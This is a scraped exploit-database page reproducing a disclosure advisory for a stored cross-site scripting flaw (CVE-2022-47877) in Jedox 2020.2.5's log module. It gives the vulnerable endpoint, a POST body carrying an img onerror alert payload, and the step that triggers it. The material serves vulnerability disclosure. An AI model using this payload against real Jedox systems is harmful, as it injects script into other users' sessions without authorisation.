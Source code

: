 ```yaml
---
title: Jedox 2020.2.5 Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172153&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-06
fetch_date: 2025-10-04T11:39:17.507269
---
```


# Jedox 2020.2.5 Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Jedox 2020.2.5 Cross Site Scripting CVE-2022-47877

2023-05-05 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172153
# Exploit Title: Jedox 2020.2.5 - Stored Cross-Site Scripting in Log-Module
# Date: 28/04/2023
# Exploit Author: Team Syslifters / Christoph MAHRL, Aron MOLNAR, Patrick PIRKER and Michael WEDL
# Vendor Homepage: https://jedox.com
# Version: Jedox 2020.2 (20.2.5) and older
# CVE : CVE-2022-47877

Introduction
=================
A Stored cross-site scripting vulnerability allows remote authenticated users to inject arbitrary web scripts or HTML in the logs page via the log module. To exploit the vulnerability, the attacker must append an XSS payload to the log message.

Write-Up
=================
See [Docs Syslifters](https://docs.syslifters.com/) for a detailed write-up on how to exploit vulnerability.

Proof of Concept
=================
1) Store log entry with XSS payload:

PATH: /ub/ccmd
METHOD: POST
BODY:
[
[
"log",
"error",
"<img src=# onerror=\"alert('XSS')\">"
]
]

2) Trigger XSS payload by opening the Logs page and showing the respective log entry.
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)